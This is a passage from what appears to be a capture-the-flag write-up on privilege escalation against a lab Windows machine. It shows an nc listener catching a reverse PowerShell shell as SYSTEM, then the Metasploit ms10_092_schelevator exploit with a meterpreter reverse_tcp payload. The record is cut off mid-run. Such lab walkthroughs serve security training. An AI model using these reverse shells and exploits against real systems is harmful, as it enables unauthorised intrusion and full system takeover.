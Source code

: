 ```
Auth result: 0
Return code: 0
Last error: 0

```

```

root@kali# nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.93] 49190
Windows PowerShell running as user BOUNTY$ on BOUNTY
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami
nt authority\system

```

### Escalation Method 2: Kernel Exploits - Metasploit

Unfortunately, I didn’t have a good implementation of one of these kernel exploits that fits my current situation outside of Metasploit. There are lots of pre-compiled exes on github, but they typically open a new cmd window, which isn’t helpful here. And, since I got a Meterpreter shell already for enumeration, I’ll make good use of it:

```

msf exploit(windows/local/ms10_092_schelevator) > options

Module options (exploit/windows/local/ms10_092_schelevator):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   CMD                        no        Command to execute instead of a payload
   SESSION   1                yes       The session to run this module on.
   TASKNAME                   no        A name for the created task (default random)

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.5       yes       The listen address (an interface may be specified)
   LPORT     443              yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Windows Vista, 7, and 2008

msf exploit(windows/local/ms10_092_schelevator) > run

[*] Started reverse TCP handler on 10.10.14.5:443
[*] Preparing payload at C:\Windows\TEMP\qqTMYhyeIn.exe
[*] Creating task: FnB0882rp0ZAqjr
[*] SUCCESS: The scheduled task "FnB0882rp0ZAqjr" has successfully been created.
[*] SCHELEVATOR
[*] Reading the task file contents from C:\Windows\system32\tasks\FnB0882rp0ZAqjr...
[*] Original CRC32: 0xd3070e6a
[*] Final CRC32: 0xd3070e6a
[*] Writing our modified content back...
[*] Validating task: FnB0882rp0ZAqjr
[*]
```